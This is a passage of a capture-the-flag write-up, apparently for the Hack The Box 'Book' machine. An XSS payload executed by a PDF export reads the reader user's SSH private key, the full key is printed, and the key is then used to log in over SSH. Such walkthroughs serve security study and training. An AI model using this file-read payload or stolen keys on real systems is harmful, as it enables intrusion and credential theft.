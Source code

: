 In the admin panel we can export the collections as a PDF and opening this PDF after submitting our XSS payload confirmed that the payload is executed by the server while generating the PDF. This shows the user accounts on the server which are `root` and `reader`.

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
    document.write(this.responseText);
};
x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();
</script>
```

```text
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----
```

Updating our payload to read `/home/reader/.ssh/id_rsa` shows us the private key used by `reader`.

```bash
luc@kali:~/HTB/Book$ nano id_rsa
-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----
luc@kali:~/HTB/Book$ chmod 600 id_rsa
luc@kali:~/HTB/Book$ ssh -i id_rsa reader@10.10.10.176
load pubkey "id_rsa": invalid format
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jul  9 14:54:35 UTC 2020

  System load:  0.07               Processes:            153
  Usage of /:   26.8% of 19.56GB   Users logged in:      2
  Memory usage: 37%                IP address for ens33: 10.10.10.176
  Swap usage:   0%
```